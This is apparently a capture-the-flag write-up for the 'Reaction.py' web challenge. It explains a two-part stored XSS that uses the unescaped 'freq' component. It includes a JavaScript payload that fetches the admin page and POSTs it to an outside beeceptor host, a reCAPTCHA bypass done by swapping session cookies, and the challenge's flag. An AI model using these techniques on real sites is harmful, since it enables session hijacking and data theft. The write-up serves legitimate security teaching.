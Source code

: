 # Reaction.py

WEB: 150 points

> Jason's created the newest advancement in web development, Reaction.py!
> A server-side component-based web framework. He created a few demo components that you can find on [his site](https://reactionpy.2021.chall.actf.co/login).
> If you make a cool enough webpage, you can submit them to the contest and win prizes!

## Where is Flag?

Flag is stored at `accounts["admin"]["bucket"]` on app server.
A user can choice from 4 type component and push to own `accounts[username]["bucket"]`.
Bucket can store components up to 2.
In `/` of site, you can see user's bucket if you logged in.

## Target

You can submit to the contest to decide the coolest webpage.
`POST /contest` and super user will be visit your website.
Super user can impersonate to any user.
Let's try to take over super user and get admin webpage content to get flag.

## XSS

To control super user, you should to XSS on your webpage with bucket.

### `welcome` Component

```py
if name == "welcome":
    if len(bucket) > 0:
        return (ERR, "Welcomes can only go at the start")
    bucket.append(
        """
        <form action="/newcomp" method="POST">
            <input type="text" name="name" placeholder="component name">
            <input type="text" name="cfg" placeholder="component config">
            <input type="submit" value="create component">
        </form>
        <form action="/reset" method="POST">
            <p>warning: resetting components gets rid of this form for some reason</p>
            <input type="submit" value="reset components">
        </form>
        <form action="/contest" method="POST">
            <div class="g-recaptcha" data-sitekey="{}"></div>
            <input type="submit" value="submit site to contest">
        </form>
        <p>Welcome <strong>{}</strong>!</p>
        """.format(
            captcha.get("sitekey"), escape(cfg)
        ).strip()
    )
```

`welcome` Component render contest form.
Google re-captcha is required to submit to the contest.
This component can only be added when the bucket is empty.

`escape` is one of the function provided by `Flask`.
> Convert the characters `&`, `<`, `>`, `‘`, and `”` in string s to HTML-safe sequences.
> Use this if you need to display text that might contain such characters in HTML. Marks return value as markup string.
Ref. [flask.escape — Flask API](https://tedboy.github.io/flask/generated/flask.escape.html)

### `char_count` Component

```py
elif name == "char_count":
    bucket.append(
        "<p>{}</p>".format(
            escape(
                f"<strong>{len(cfg)}</strong> characters and <strong>{len(cfg.split())}</strong> words"
            )
        )
    )
```

You can inject only numbers with `char_count` Component.

### `text` Component

```py
elif name == "text":
    bucket.append("<p>{}</p>".format(escape(cfg)))
```

You can inject some text with `text` Component, but it will be convert to HTML-safe strings.

### `freq` Component

```py
elif name == "freq":
    counts = Counter(cfg)
    (char, freq) = max(counts.items(), key=lambda x: x[1])
    bucket.append(
        "<p>All letters: {}<br>Most frequent: '{}'x{}</p>".format(
            "".join(counts), char, freq
        )
    )
```

You can inject some text with `freq` Component, and it will be not escaped!
Duplicate characters in `cfg` are eliminated: `"abacbd"` -> `"abcd"`

### Inject Script Tag

Use `freq` Component to inject script tag.
`"<script>"` string has no duplicate characters.
To ignore after strings of `<script>` tag, treat the trailing string as a comment: `"<script> /*"`

### Inject Script

`text` Component can inject any string that does not include the following 5 types: `&`, `<`, `>`, `‘`, and `”`
So, you can inject any JavaScript source, such as: `"alert(0)"`
To ignore after strings of script you inject, treat the trailing string as a comment: `"alert(0) \\"`
And you ware success to embed arbitrary JavaScript in your webpage. 😎

### How to steal flag?

If you can submit your polluted webpage, super user will be visit and arbitrary JavaScript will be executed.

Scenario to steal the flag:

1. Super user visit your webpage, and execute JavaScript.
2. Get content of admin webpage.
3. Send content to your website (ex. [beeceptor.com](http://beeceptor.com))

Super user can get webpage content with `GET /?fakeuser=<username>`.
You cannot use single-quote, double-quote and `=>`, use back-quote and `function(...args) {}`.

```js
fetch(`/?fakeuser=admin`)
  .then(function(r){return r.text()})
  .then(function(body){fetch(`https://progfay.free.beeceptor.com`,{method:`POST`,body})})
```

## Wait, can you submit your webpage to the contest?

To submit, required to Google re-captcha and this form is rendered by `welcome` Component.
You already `freq` and `text` Components and reached the limit of bucket size.

You can bypass Google re-captcha with another user's submit form.

1. Create second user and go to `/`.
2. Replace `session` value in Cookie to first user.
3. Submit form with Google re-captcha.

And you got admin webpage content on beeceptor Console.

Flag: `actf{two_part_xss_is_double_the_parts_of_one_part_xss}`
